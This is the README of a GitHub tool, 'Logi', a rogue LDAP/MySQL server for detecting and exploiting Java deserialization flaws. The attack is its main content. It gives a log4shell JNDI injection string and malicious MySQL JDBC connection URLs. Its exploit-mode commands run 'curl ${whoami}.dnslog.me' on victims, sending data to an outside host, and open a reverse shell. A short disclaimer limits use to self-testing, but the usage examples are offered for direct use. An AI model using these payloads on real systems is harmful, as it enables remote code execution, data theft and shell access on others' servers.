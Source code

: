 # ☕️LOGI
Logi is a LDAP/MySQL server focusing on pingback deserialize recon and exploit.


- [☕️LOGI](#️logi)
  - [免责声明](#免责声明)
  - [✨Get started](#get-started)
  - [⚙️How it work](#️how-it-work)
  - [🚀Examples](#examples)
    - [📖LDAP](#ldap)
    - [🐬MySQL](#mysql)
  - [🔮Image](#image)
  - [💻See also](#see-also)

## 免责声明
该工具仅用于安全自查检测。

由于传播、利用此工具所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。

本人拥有对此工具的修改和解释权。未经网络安全部门及相关部门允许，不得善自使用本工具进行任何攻击活动，不得以任何方式将其用于商业目的。

## ✨Get started
Download logi from [release](https://github.com/cokeBeer/logi/releases), or use `go install`
```
go install github.com/cokeBeer/logi/cmd/logi@latest
```
Use `-h` to show help.
```
$ ./logi -h
Logi is a LDAP/MySQL server focusing on pingback deserialize recon and exploit.

Usage:
  ./logi [flags]

Flags:
BASIC CONFIG:
   -m, -mode int  1 for poc , 2 for probe, 3 for exploit
   -t, -type int  1 for ldap, 2 for mysql
SERVE CONFIG:
   -i, -ip string    ip for binding (default "0.0.0.0")
   -p, -port string  port for binding (default "1389")
...
```

## ⚙️How it work
Logi hosts a LDAP/MySQL service, waiting for LDAP lookup/MySQL connect
- poc mode: reply a urldns gadget points to `domain` for deserialize verify
- probe mode: reply different probe gadgets points to `probename.domain` in turn for dependency probe
- exploit mode: reply a gadget for command execute

## 🚀Examples
### 📖LDAP
**Poc mode**

Run poc mode with dns domain `dnslog.me`:
```
./logi -t 1 -m 1 -d dnslog.me
```
You need to send a ldap lookup to logi.
For example, a log4shell poc like below can trigger a jndi lookup to your server.
```
${jndi:ldap://your-ip:your-port/somepath}
```
logi will send a response contains serialized payload. After target deserializes the payload, it will lookup a domain named `somepath.dnslog.me`. You can use this feature to confirm deserialize and mark targets.

**Probe mode with embed wordlist**

Run probe mode with dns domain `dnslog.me` with embed wordlist `yso`:
```
./logi -t 1 -m 2 -d dnslog.me -w yso
```
You need to request many times to traverse the wordlist, which can be done by BurpSuite.
```
repeat ${jndi:ldap://your-ip:your-port/somepath} many times
```
After target deserializes logi's response, it will lookup the domain `ith-classname.somepath.dnslog.me`. You can use this feature to probe dependencies. Also, the number of classes in dict will be printed to console when logi starts, you can use this information to control the repetition.

**Probe mode with custom wordlist**

Run probe mode with dns domain `dnslog.me` with custom wordlist in `./dict.txt`:
```
./logi -t 1 -m 2 -d dnslog.me -wp ./dict.txt
```
One class name per line in dict.

**Exploit mode with embed gadget**

Run exploit mode with gadget `cb1v18`  with command `curl ${whoami}.dnslog.me`:
```
./logi -t 1 -m 3 -g cb1v18 -c 'curl ${whoami}.dnslog.me'
```
**Exploit mode to get a reverse shell**

Run exploit mode with gadget `cb1v18` with reverse shell to `127.0.0.1:7777`:
```
./logi -t 1 -m 3 -g cb1v18 -s '127.0.0.1:7777'
```
**Exploit mode with custom gadget**

Run exploit mode with custom binary payload in `./cc1`:
```
./logi -t 1 -m 3 -b ./cc1
```

### 🐬MySQL
In MySQL type, a fake MySQL server will be started. Mode poc and mode probe also work the same as LDAP type, but logi mainly focuses on exploit mode.

> it's ok just replace -t 1 with -t 2 in above commands

Run exploit mode on port `3307` with gadget `cb1v18`  with command `curl ${whoami}.dnslog.me`:

```
./logi -t 2 -m 3 -p 3307 -g cb1v18 -c 'curl ${whoami}.dnslog.me'
```
You need to send a JBDC connect to logi.
```
jdbc:mysql://your-ip:your-port/someschema?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&useSSL=false
```
You can also remove the param `useSSL=false`， this will cause JDBC connecting on TLS, and logi supports TLS connection too :).
```
jdbc:mysql://your-ip:your-port/someschema?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor
```

## 🔮Image
![image](image/logi.png)
![image](image/dnslog.png)
## 💻See also
[GadgetProbe](https://github.com/BishopFox/GadgetProbe)

[JNDI-Inject-Exploit](https://github.com/exp1orer/JNDI-Inject-Exploit)

[Urldns](https://github.com/kezibei/Urldns)